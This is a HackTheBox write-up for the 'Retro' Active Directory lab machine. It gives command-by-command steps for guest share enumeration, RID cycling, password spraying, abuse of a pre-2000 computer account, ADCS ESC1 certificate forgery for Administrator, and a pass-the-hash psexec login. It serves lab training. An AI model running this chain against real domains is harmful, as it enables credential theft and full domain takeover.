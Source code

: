 # [HackTheBox - Retro](https://app.hackthebox.com/machines/Retro)

![8c137bf429e00361974c2bae911f72fb.png](/resources/8c137bf429e00361974c2bae911f72fb.png)

## Table of Contents

- [Abstract](#abstract)
- [Enumeration](#enumeration)
- [Obtaining trainee password](#obtaining-trainee-password)
- [Discovery of Pre-Windows 2000 computer account](#discovery-of-pre-windows-2000-computer-account)
- [Discovery of ADCS ESC1](#discovery-of-adcs-esc1)
- [Privilege Escalation with ADCS ESC1](#privilege-escalation-with-adcs-esc1)

***
## Abstract
Retro is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine and no WinRM enabled as well.

On the enumeration phase, I found that guest account is enabled and can be used to access "Trainees" share and in the share reveals that there is one trainee account with weak password on this domain. after retrieving user list with RID-Cycling method, I found that "trainee" account is using its username as password and can be use to access "Notes" shares.

On "Notes" shares has user flag and also a text file implying the existence of Pre2K computer account which I changed its password and discover that domain computers group can enroll a certificate from "RetroClients" certificate template which have ADCS ESC1 misconfiguration.

Leveraging ADCS ESC1,I obtained NTLM of Administrator account and finally root the box with psexec.

## Enumeration
I start with nmap scan without any flag to quickly scan for well-known port which reveals that this machine is a domain controller and does not have any services beside required services for active directory running on this machine and one more thing to notice here is no port 5985 which mean we can not use WinRM to get access to this machine.

![a69c5ccd908178c5dbea1aab27096649.png](/resources/a69c5ccd908178c5dbea1aab27096649.png)

I rerun my scan again with `-sCV` just to find the hostname which I'll add to my `/etc/hosts` file so I won't need to specify IP address if I did not need to.

![21c26216b7e1d024875bce751036852e.png](/resources/21c26216b7e1d024875bce751036852e.png)

Since there is no other service that I could dig it, I start with null session enumeration on SMB and LDAP protocol which I can see that null session could not be used to pull user list or access file share.

![a001c8716d201b1e4ad7cddf382cca62.png](/resources/a001c8716d201b1e4ad7cddf382cca62.png)

But the guest account is enabled and I can use it to list a share which reveals non-standard share with READ access as guest user.
```
uv run nxc smb retro.vl -u 'guest' -p '' --shares
```
![4e6746f403acb466703db95bb9153e61.png](/resources/4e6746f403acb466703db95bb9153e61.png)

Upon connection to this share and list its content, I found `Important.txt` which was left here for "trainees" of the company to read.
```
smbclient \\\\retro.vl\\Trainees -N
```
![dfbe81308130aba74d008b9e4e621ec0.png](/resources/dfbe81308130aba74d008b9e4e621ec0.png)

The content of this file explicitly says that there is one trainee account and since some of trainees struggling with remembering strong and unique passwords then the new password must be easy to guess or you guess it. it would be "user:user" for sure.

![df7f133ddb7fb60291a529259b8b2270.png](/resources/df7f133ddb7fb60291a529259b8b2270.png)

Since guest account is enabled and can connect to shares then I use RID cycling method with NetExec to create user list and I can use this list to conduct password spraying attack when I obtained user password later. and one more thing to notice is the "trainee" so this is the user I want to try to connect to with "user:user" combination.
```
uv run nxc smb retro.vl -u 'guest' -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
```
![ad027525635d76d1902325182fbe0678.png](/resources/ad027525635d76d1902325182fbe0678.png)

## Obtaining trainee password
Using NetExec to test "user:user" combination and I got 1 hit as "trainee" user as expected.
```
uv run nxc smb retro.vl -u users -p users --no-bruteforce --continue-on-success
```
![2903cf9e4fa44af4412d84688466a4cd.png](/resources/2903cf9e4fa44af4412d84688466a4cd.png)

Using this credential to enumerate for more shares which I found another share that can be accessed with this user.
```
uv run nxc smb retro.vl -u trainee -p trainee --shares
```
![86ff4c5df88e70aa1a82d6acfb9581d4.png](/resources/86ff4c5df88e70aa1a82d6acfb9581d4.png)

## Discovery of Pre-Windows 2000 computer account
Upon opening this new share and list its content. I discover user flag and `ToDo.txt` file.
```
smbclient \\\\retro.vl\\Notes -U trainee%trainee
```
![9c4eb9ecc2286ecc29eadac9468e2a39.png](/resources/9c4eb9ecc2286ecc29eadac9468e2a39.png)

The content of `ToDo.txt`, I got a clue that there should be a pre-created computer account and that must be pre-Windows 2000 computer (Pre2k).

![bd332d6209e868026555a90b3d7f8d80.png](/resources/bd332d6209e868026555a90b3d7f8d80.png)

NetExec have a module that could be used to retrieve pre-Windows 2000 computer account which I found that "banking$" is one I am looking for.
```
uv run nxc ldap retro.vl -u trainee -p trainee -M pre2k
```
![85cc743dcfbe312568ea27de3730d83d.png](/resources/85cc743dcfbe312568ea27de3730d83d.png)

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $) so in this case, the password should be "banking" and it is confirmed that this password can be used but to be able to fully utilize this account, I will need to change its password first.
```
uv run nxc smb retro.vl -u 'banking$' -p banking
```
![126671f12b30bd2610bb0aabc6c2202e.png](/resources/126671f12b30bd2610bb0aabc6c2202e.png)

I will use impacket-changepasswd to change its password and now I have this account ready to be utilized.
```
impacket-changepasswd retro.vl/banking\$@retro.vl -newpass '12345' -p rpc-samr
uv run nxc smb retro.vl -u 'banking$' -p 12345
```
![9bae8142b2fc3971ff1cc7bc4280337d.png](/resources/9bae8142b2fc3971ff1cc7bc4280337d.png)

## Discovery of ADCS ESC1
I use rusthound-ce to collect domain information which can be used with bloodhound ce and visualization and find out if pre2k computer account can do anything.
```
rusthound-ce -d retro.vl -u trainee@retro.vl -p trainee -z
```
![dcd9df4ef9f9a3d958ded9d094bd1902.png](/resources/dcd9df4ef9f9a3d958ded9d094bd1902.png)

Best thing about rusthound-ce beside how fast it takes to collect domain information is how vast it collect information from the domain which includes certificate template as well and I can see that there is one non-standard certificate template that the domain computers group can enroll and it has "EnrolleeSuppliesSubject" flag set and this mean I can leverage ADCS ESC1 to get ccache and NTLM hash of any user on this domain.

![660441c1f6adc21b0e7fbf99f0fab939.png](/resources/660441c1f6adc21b0e7fbf99f0fab939.png)

I confim ESC1 again with certipy-find module in NetExec (or you can use certipy directly) which reveals that "RetroClients" template have misconfiguration as ESC1.
```
uv run nxc ldap retro.vl -u 'banking$' -p 12345 -M certipy-find
```
![6e5e9b8fc167c9518464898d43a997bd.png](/resources/6e5e9b8fc167c9518464898d43a997bd.png)

## Privilege Escalation with ADCS ESC1
To leverage ADCS ESC1, I use certipy-ad to request certificate of Administrator user first but there is a problem due to the key length.
```
uv run certipy-ad req -u 'banking$' -p '12345' -dc-ip $IP -ca 'retro-DC-CA' -template 'RetroClients' -upn 'Administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500'
```
![470ea8728db469e17e393b654c2735bf.png](/resources/470ea8728db469e17e393b654c2735bf.png)

I go back to certipy-find result again which I can see that I need to specify the key size to have at least 4096 in length.

![384a54e25f33c226a0e775fa2db95475.png](/resources/384a54e25f33c226a0e775fa2db95475.png)

Now after adding `-key-size 4096` to the same command, I get the certificate file of the Administrator user of this domain.
```
certipy req -u 'banking$' -p '12345' -dc-ip $IP -ca 'retro-DC-CA' -template 'RetroClients' -upn 'Administrator@retro.vl' -sid 'S-1-5-21-2983547755-698260136-4283918172-500' -key-size 4096
```
![8881f998cc7467fcb3ea6a0acaf26c5f.png](/resources/8881f998cc7467fcb3ea6a0acaf26c5f.png)

Next, I use certipy to authenticate to the domain controller again to automatically retrieve TGT of the Administrator and use that to retrive NTLM hash as well (I revert machine once so the IP changed)
```
certipy auth -pfx administrator.pfx -dc-ip $IP 
```
![691ff79764a88a890e961f0713293a74.png](/resources/691ff79764a88a890e961f0713293a74.png)

Now I can use psexec, wmiexec, smbexec to access the machine as SYSTEM.

```
impacket-psexec 'Administrator@retro.vl' -hashes :252fac7066d93dd009d4fd2cd0368389 -service-name chicken_svc -remote-binary-name powershell.exe
```
![43f8f589b010cec70d38a08d84c02e65.png](/resources/43f8f589b010cec70d38a08d84c02e65.png)

Now I will loot root flag and root the box :D

![0ddbe6ded024cab64cdd30d110f88152.png](/resources/0ddbe6ded024cab64cdd30d110f88152.png)

![31d3b66c57999b2b03986cf102553004.png](/resources/31d3b66c57999b2b03986cf102553004.png)

https://labs.hackthebox.com/achievement/machine/1438364/671
***